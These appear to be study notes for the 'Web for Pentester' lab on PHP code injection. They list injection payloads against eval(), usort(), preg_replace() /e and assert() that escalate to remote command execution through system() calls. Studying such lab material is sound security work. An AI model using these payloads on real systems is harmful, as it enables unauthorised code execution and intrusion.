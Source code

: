 <h2>Code Injection</h2>
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

<h3>Web for Penterster</h3> 
<h3>example 1</h3> 
eval() - evaluates a string as PHP code

payload- " .phpinfo(). "
payload- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


example 2 
usort()- Sort an array by values using a user-defined comparison function

payload-example2.php?order=id,system('whoami')
payload- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


example 3
preg_replace() — Perform a regular expression search and replace

payload - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"
payload - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


example 4
assert() - Checks if assertion is FALSE
payload - example4.php?name=hacker'.phpinfo().'
payload - example4.php?name=hacker'.system('uname -a').'

